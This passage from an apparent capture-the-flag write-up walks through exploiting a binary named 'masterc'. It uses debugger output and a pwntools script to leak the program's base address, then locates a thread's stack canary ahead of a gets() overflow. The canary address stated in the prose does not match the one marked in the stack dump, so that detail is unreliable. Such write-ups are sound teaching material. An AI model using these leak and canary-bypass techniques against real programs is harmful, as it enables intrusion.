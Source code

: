 As you can see, our leak came out. Let's examine our leak and find out what function address it is.

```
pwndbg> x/gx 93824992236921
0x555555555579 <set_number_of_tries+39>:	0x7800fc7d83fc4589
```

As you can see, our leak is at `<set_number_of_tries+39>`. With that knowledge we can craft the first stage of our exploit.

```py
from pwn import *

p = process('masterc')
libc = ELF('libc-2.31.so')
context.binary = elf = ELF('masterc')

p.sendline(b'1')
p.sendline(b'1')
p.sendline(b'A')
p.recvuntil('You entered ')
leak = int(p.recvuntil(' ').strip())

setnotries = leak - 39
elf.address = setnotries - elf.sym.set_number_of_tries

log.info(f"Elf base: {hex(elf.address)}")
log.info(f"Leak: {hex(leak)}")
```

Next, we exploit our master canary.

We run our binary in gdb once again, and run until we reach our threaded win function.

Printing enough values on the stack, we find our input canary which limits our `gets()`.

```
pwndbg> stack 21

00:0000│ rsp 0x7ffff7dc3ef8 —▸ 0x7ffff7f95ea7 (start_thread+215)
01:0008│     0x7ffff7dc3f00 ◂— 0x0
02:0010│     0x7ffff7dc3f08 —▸ 0x7ffff7dc4700 ◂— 0x7ffff7dc4700
03:0018│     0x7ffff7dc3f10 —▸ 0x7ffff7dc4700 ◂— 0x7ffff7dc4700
04:0020│     0x7ffff7dc3f18 ◂— 0xf330b7fc5cc53fed
05:0028│     0x7ffff7dc3f20 —▸ 0x7fffffffe4ae ◂— 0x100
06:0030│     0x7ffff7dc3f28 —▸ 0x7fffffffe4af ◂— 0x1
07:0038│     0x7ffff7dc3f30 —▸ 0x7ffff7dc3fc0 ◂— 0x0
08:0040│     0x7ffff7dc3f38 ◂— 0x802000
09:0048│     0x7ffff7dc3f40 ◂— 0xccf584422c53fed
0a:0050│     0x7ffff7dc3f48 ◂— 0xccf580ee05f3fed
0b:0058│     0x7ffff7dc3f50 ◂— 0x0
... ↓        8 skipped
14:00a0│     0x7ffff7dc3f98 ◂— 0x25fc24ba22307b00 #our canary is here
```

We can see that our canary _(easily identifiable due to the null byte)_ is at `0x7ffff7dc3ee8`.
